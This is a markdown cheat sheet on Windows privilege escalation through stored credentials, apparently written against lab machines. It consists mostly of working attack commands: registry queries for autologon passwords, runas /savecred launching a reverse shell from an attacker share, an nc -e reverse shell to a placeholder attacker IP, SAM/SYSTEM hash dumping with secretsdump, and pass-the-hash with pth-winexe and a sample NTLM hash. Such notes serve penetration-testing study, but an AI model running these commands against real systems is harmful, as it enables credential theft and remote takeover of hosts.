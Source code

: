 # 2. Stored Credentials   

## A. Find passwords in the registry
### Detection
- Get-RegistryAutoLogon (PowerUp.ps1)
- WinPEAS : Section -> Looking for AutoLogon credentials
- reg query HKLM /f password /t REG_SZ /s
- reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
### Exploitation
```powershell
winexe -U 'admin%password' //10.10.233.196 cmd.exe
```
## B. Saved Credentials
### Detection
```powershell
cmdkey /list
```
### Exploitation
```powershell
# Execute a single command as administrator
runas /savecred /user:Administrator "cmd.exe /k whoami"
# Spawn an administrator shell 
runas /savecred /user:admin "\\10.9.19.155\kali\reverse.exe"
# Using runas with a provided set of credential
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 9001 -e cmd.exe"
```

## C. SAM and SYSTEM files
- WinPEAS : Section -> Looking for common SAM & SYSTEM backups
- %SYSTEMROOT%\repair\SAM
- %SYSTEMROOT%\System32\config\RegBack\SAM
- %SYSTEMROOT%\System32\config\SAM
- %SYSTEMROOT%\repair\system
- %SYSTEMROOT%\System32\config\SYSTEM
- %SYSTEMROOT%\System32\config\RegBack\system

#### Generate Hash file (impacket)
```bash
python3 secretsdump.py -sam ~/Downloads/SAM_DB/SAM -system ~/Downloads/SAM_DB/SYSTEM local
```
## D. Quick wins in files
- C:\unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

## E. Pass The Hash
```bash
pth-winexe -U 'admin%hash' //10.10.148.9 cmd.exe
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.148.9 cmd.exe
```